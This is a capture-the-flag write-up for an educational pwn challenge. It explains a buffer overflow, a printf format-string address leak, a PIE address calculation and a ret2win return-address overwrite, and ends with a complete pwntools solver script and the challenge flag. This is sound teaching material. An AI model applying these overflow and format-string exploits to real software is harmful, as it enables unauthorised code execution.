

# Buzz Lightyears PWN Ranger School

## Overview

Points: 384

Category: Pwn

## Approach

This particular challenge didn't have a binary to investigate, merely some simple code to connect to the address.
The challenge functioned as an educational challenge to show you various techniques of pwning.

After connection we were faced with an image and text printed to the terminal as well as a menu with the first stage of the challenge.


### Stage 1

Stage 1 was a brief overview of buffer overflows, in the challenge they explain the details of how to take advantage of a buffer overflow
and its importance in typical capture the flag challenges and real life exploits.


In the challenge a 16 character buffer has been established. Overflowing a buffer requires passing more values into the buffer then alloted. 
Therefore I could pass this stage by passing in 17 characters which can be seen above with my input of ```aaaaaaaaaaaaaaaaa```


### Stage 2

Stage 2 was an overview of one technique to leak an address of memory. The stage explains how different sections of code are loaded into memory 
and sometimes loaded in a way to hinder exploiting a vulnerability. Whether we are attempting to jump to a different section of code or need to 
call a function elsewhere we typically need to know the memory location we would like to hit.



In this challenge the method they explain for leaking an address lie in improperly used statements such as printf. They explain that printf always expects a specifier. A specifier is a designator in the code that specifies what format the out should be in. 

There exist many options when it comes to the printf command and they can be used in ways they weren't necessarily intended for. In this stage we can use ```%9$p``` and successfully leak a memory address for the current function. We can then look up the current base address of the function with the use of ```vmmap``` in ```gdb```. 

```Leaked Address - Base Address = Offset```

**NOTE:** We will need this Base Address for a later stage of the challenge so we also extract the address from the bytes received.


**Format Specifier Prototype**                                                                         
*https://cplusplus.com/reference/cstdio/printf/*

%[flags][width][.precision][length]specifier                                                                          

| Specifier  | Output |
| ------------- | ------------- |
| d **or** i  | Signed decimal integer  |
| u  | 	Unsigned decimal integer  |
| o  | 	Unsigned octal  |
| x  | Unsigned hexadecimal integer  |
| X  | Unsigned hexadecimal integer (uppercase)  |
| f  | Decimal floating point, lowercase  |
| F  | Decimal floating point, uppercase  |
| e  | Scientific notation (mantissa/exponent), lowercase  |
| E  | Scientific notation (mantissa/exponent), uppercase  |
| g  | Use the shortest representation: %e or %f  |
| G  | Use the shortest representation: %E or %F  |
| a  | Hexadecimal floating point, lowercase  |
| A  | Hexadecimal floating point, uppercase  |
| c  | Character  |
| s  | String of characters  |
| p  | Pointer address  |
| n  | Nothing printed. The corresponding argument must be a pointer to a signed int. The number of characters written so far is stored in the pointed location.	  |
| %  | A % followed by another % character will write a single % to the stream.  |

  
| Flags  | Description |
| ------------- | ------------- |
| -  | Left-justify within the given field width; Right justification is the default (see width sub-specifier).  |
| +  | Forces to preceed the result with a plus or minus sign (+ or -) even for positive numbers. By default, only negative numbers are preceded with a - sign.  |
| (space) | If no sign is going to be written, a blank space is inserted before the value. |
| #  | Used with o, x or X specifiers the value is preceeded with 0, 0x or 0X respectively for values different than zero. Used with a, A, e, E, f, F, g or G it forces the written output to contain a decimal point even if no more digits follow. By default, if no digits follow, no decimal point is written.  |
| 0  | Left-pads the number with zeroes (0) instead of spaces when padding is specified (see width sub-specifier).  |


| Width  | Description |
| ------------- | ------------- |
| (number)  | Minimum number of characters to be printed. If the value to be printed is shorter than this number, the result is padded with blank spaces. The value is not truncated even if the result is larger.  |
| *  | The width is not specified in the format string, but as an additional integer value argument preceding the argument that has to be formatted.  |


| .Precision  | Description |
| ------------- | ------------- |
| (number)  | For integer specifiers (d, i, o, u, x, X): precision specifies the minimum number of digits to be written. If the value to be written is shorter than this number, the result is padded with leading zeros. The value is not truncated even if the result is longer. A precision of 0 means that no character is written for the value 0. For a, A, e, E, f and F specifiers: this is the number of digits to be printed after the decimal point (by default, this is 6). For g and G specifiers: This is the maximum number of significant digits to be printed. For s: this is the maximum number of characters to be printed. By default all characters are printed until the ending null character is encountered. If the period is specified without an explicit value for precision, 0 is assumed.  |
| *  | The precision is not specified in the format string, but as an additional integer value argument preceding the argument that has to be formatted.  |


|   | Specifiers  |   |   |   |   |   |   |
| ------------- | ------------- | ------------- | ------------- | ------------- | ------------- | ------------- | ------------- |
| **Length**  | **d , i** | **u , o , x , X** | **f , F , e , E , g , G , a , A** | **c** | **s** | **p** | **n** |
| **(none)**  | int  | unsigned int  | double  | int  | Char*  | void*  | int*  |
| **hh**  | signed char  | unsigned char  |   |   |   |   | signed char*  |
| **h**  | short int  | unsigned short int  |   |   |   |   | short int*  |
| **l**  | long int  | unsigned long int  |   | wint_t  | wchar_t*  |   | long int*  |
| **ll**  | long long int  | unsigned long long int  |   |   |   |   | long long int*  |
| **j**  | intmax_t  | uintmax_t  |   |   |   |   | intmax_t*  |
| **z**  | size_t  | size_t  |   |   |   |   | size_t*  |
| **t**  | ptrdiff_t  | ptrdiff_t  |   |   |   |   | ptrdiff_t  |
| **L**  |   |   | long double  |   |   |   |   |


### Stage 3


With Stage 3 we are given an offset address of a ```win()``` function and prompted to calculate the PIE address of this function. Much of the time we only have an offset available to us so leaking an address, calculating the base and then calculating ```Base Address + Function Offset = PIE Address of Function``` is necessary.

We are given the offset of ```0x2139``` in this stage so we need to take the Base Address from the previous stage to calculate the PIE Address of ```win()```.

```0x55fc3f100000 + 0x2139 = 0x55fc3f102139```


### Stage 4


Coming into the end we put it all together and exploit a Ret2Win vulnerability. This vulnerability is where you are able to overflow the buffer, the ```$RBP``` register, and overwrite the ```$RIP``` register. The ```$RIP``` register is where the program flow will go once the current section of code reaches the ```ret``` instruction. With this vulnerability you can essentially redirect execution flow elsewhere.  


**pwnSchoolSolver.py**
```.py
from pwn import *

p = remote("spaceheroes-pwnschool.chals.io", 443, ssl=True, sni="spaceheroes-pwnschool.chals.io")

# Stage1: Overflow
p.recvuntil(b">>> ")
p.sendline(b"1")            
p.recvuntil(b">>> ")
p.sendline(b"a"*(16+1))     


# Stage2: Leak 
p.recvuntil(b">>> ")
p.sendline(b"2")     
p.recvuntil(b">>> ")    
p.sendline(b"%9$p")
p.recvuntil(b" 0x1380 = ")
programBase = p.recvline()[0:-1]
programBase = programBase.decode("utf-8")
programBase = int(programBase, 0)


# Stage3: Calculate PIE Address
p.recvuntil(b">>> ")
p.sendline(b"3")
winOffset = 0x2139
winAddr = programBase + winOffset
ret = winAddr-1
p.recvuntil(b">>> ")
p.sendline(hex(winAddr).encode('utf-8'))


# Stage4: Ret2Win
p.recvuntil(b">>> ")
p.sendline(b"4")
p.recvuntil(b">>> ")
payload = (p64(ret)*40 + p64(winAddr))
p.sendline(payload)


p.interactive()
```

### win()

Finally we run our script and are presented with the flag.

```shctf{t0_pwnf1nity_&_b3y0nd!}```


